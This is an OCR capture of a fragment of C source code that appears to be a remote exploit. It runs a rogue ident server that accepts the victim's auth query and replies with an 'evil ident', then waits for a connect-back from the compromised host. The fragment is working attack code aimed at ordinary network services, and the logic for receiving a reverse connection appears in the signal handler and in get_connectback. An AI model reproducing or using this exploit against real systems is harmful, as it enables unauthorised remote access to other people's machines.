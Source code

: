     printf("[*] Awaiting auth connection\n");
    if ( (csock = accept(lsock, (struct sockaddr *)&client,
            &addrlen)) < 0) {
        fprintf(stderr, "** Connection error\n");
        return(-1);
    }

    if (getpeername(csock, (struct sockaddr *)&client, &addrlen) < 0)
        perror("** getpeername()");
    else
        printf("[*] %s:%u connected to auth\n",
            inet_ntoa(client.sin_addr), ntohs(client.sin_port));

    if (read(csock, input, sizeof(input)) <= 0) {
        perror("** write()");
        return(1);
    }

    printf("[*] Sending evil ident\n");

    if (write(csock, ident, identlen) != identlen) {
        perror("** write()");
        return(1);
    }

    if (close(csock) < 0 || close(lsock < 0)) {
        perror("** close()");
        return(1);
    }

    return(0);
}

void
signal_handler(int signo)
{
    if (signo == SIGUSR1) {
        start_auth++;
        connect_target++;
    }
    else if (signo == SIGALRM) {
        fprintf(stderr, "** Timed out while waiting for connect back\n");
        kill(0, SIGTERM);
        exit(EXIT_FAILURE);
    }
}


int
get_connectback(pid_t conn, int lsock)
{
    char inbuf[8192];
    u_int addrlen = sizeof(struct sockaddr_in);
    struct sockaddr_in client;
    int csock;
    fd_set readset;
    ssize_t n;
    int nfd;
